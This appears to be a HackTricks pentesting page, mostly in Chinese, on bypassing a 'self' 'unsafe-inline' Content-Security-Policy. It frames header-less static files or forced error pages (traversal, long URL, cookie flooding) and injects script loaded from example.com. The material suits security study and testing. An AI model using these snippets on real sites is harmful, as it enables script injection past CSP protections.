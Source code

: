 A configuration such as:
```
Content-Security-Policy: default-src 'self' 'unsafe-inline';
```
禁止使用任何作为字符串传输的代码执行函数。例如：`eval, setTimeout, setInterval` 将因设置 `unsafe-eval` 而被阻止。

来自外部来源的任何内容也会被阻止，包括图像、CSS、WebSockets，尤其是 JS。

### 通过文本和图像

观察到现代浏览器将图像和文本转换为 HTML 以增强其显示效果（例如，设置背景、居中等）。因此，如果通过 `iframe` 打开图像或文本文件，例如 `favicon.ico` 或 `robots.txt`，它将作为 HTML 渲染。值得注意的是，这些页面通常缺少 CSP 头，并且可能不包含 X-Frame-Options，从而允许从中执行任意 JavaScript：
```javascript
frame = document.createElement("iframe")
frame.src = "/css/bootstrap.min.css"
document.body.appendChild(frame)
script = document.createElement("script")
script.src = "//example.com/csp.js"
window.frames[0].document.head.appendChild(script)
```
### 通过错误

类似地，错误响应，如文本文件或图像，通常没有CSP头，并且可能省略X-Frame-Options。可以诱导错误在iframe中加载，从而允许以下操作：
```javascript
// Inducing an nginx error
frame = document.createElement("iframe")
frame.src = "/%2e%2e%2f"
document.body.appendChild(frame)

// Triggering an error with a long URL
frame = document.createElement("iframe")
frame.src = "/" + "A".repeat(20000)
document.body.appendChild(frame)

// Generating an error via extensive cookies
for (var i = 0; i < 5; i++) {
document.cookie = i + "=" + "a".repeat(4000)
}
frame = document.createElement("iframe")
frame.src = "/"
document.body.appendChild(frame)
// Removal of cookies is crucial post-execution
for (var i = 0; i < 5; i++) {
document.cookie = i + "="
}
```
在触发上述任何场景后，可以通过以下方式在iframe中实现JavaScript执行：
```javascript
script = document.createElement("script")
script.src = "//example.com/csp.js"
window.frames[0].document.head.appendChild(script)
```
## 参考

- [https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/](https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/)

{{#include ../../banners/hacktricks-training.md}}
